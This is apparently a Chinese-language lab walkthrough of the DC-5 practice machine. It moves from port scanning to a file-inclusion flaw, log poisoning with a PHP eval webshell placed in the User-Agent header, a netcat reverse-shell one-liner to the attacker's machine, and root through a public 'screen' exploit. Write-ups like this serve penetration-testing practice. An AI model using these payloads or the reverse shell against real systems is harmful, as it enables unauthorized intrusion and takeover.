

# DC-5
照例扫描网段获取ip,-sn
192.168.111.138
nmap扫描
```
nmap -T4 -sS -p- -sV 192.168.111.138
```

先看80端口
页面上没有什么东西,扫描一下目录,看看有没有后台
dirsearch扫出来footer.php,但感觉没啥用


认识一下rpc:
```
RPCbind 是什么？
简单来说，​RPCbind 是一个“服务的中介”或“端口映射器”​。

想象一下一个公司的大楼：

​大楼的总机号码​ = ​服务器的 IP 地址​
​各个部门（如销售、财务、技术支持）的分机号​ = ​服务器上各个 RPC 服务实际使用的端口​
​前台接线员​ = ​RPCbind 服务​
现在，如果你想联系“技术支持部”（比如 NFS 服务），但你不知道它的分机号（端口号）是多少，你会怎么做？你会先打电话给总机，问接线员：“请帮我转接技术支持部。”

​RPCbind 干的就是这个接线员的活儿。​​ 它运行在一个众所周知的端口上（端口 111），客户端程序首先连接到这里，询问：“嘿，我想用的 NFS 服务现在在哪个端口上运行？” RPCbind 查一下自己的表，回复说：“NFS 服务在端口 2049。” 然后客户端再去连接真正的端口 2049。

​技术定义：​​
RPCbind 是 ​ONC RPC​ 协议的一个实现。ONC RPC 是一种远程过程调用协议，允许客户端在一台远程服务器上执行函数，就像在本地调用一样。NFS、NIS 等重要服务都构建在 RPC 机制之上。
```
```
# 使用 nmap 的 rpcgen 脚本进行枚举
nmap -sV -p 111 --script=rpcinfo <目标IP>

# 或者使用 Linux 自带的 rpcinfo 命令（如果已安装）
rpcinfo -p <目标IP>

```

但是也没啥突破口
没头绪,看别人才知道,突破口是文件包含
footer.php的内容在thankyou.php中被包含

怀疑包含的参数能人为控制,去爆破参数,测试包含passwd

确定参数为file

看看能不能利用伪协议来写马
data://,php://input都没成功
试一下文件包含
日志记录了UA头,在UA头处写shell:hackhere<?php @eval($_POST[1]);?>
成功记录

连接蚁剑,连不上可能是连接超时的问题

反弹shell到kali上
这里DC上有nc
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.111.128 4444 >f
```

接下来尝试提权
尝试suid提权
```
find / -perm -4000 -exec ls -ld {} \; 2>/dev/null
```

好像没有什么可以利用的
searchexploit screen 发现有权限提升

将文件上传上去执行(也可以通过webshell)
先找到能写文件的位置/tmp下
```
目标机:nc -lvnp 5555 >POC.sh
kali:nc 192.168.111.138 5555< 41154.sh
```
然后赋予脚本权限
chmod 7777 POC.sh
执行

成功获得root权限
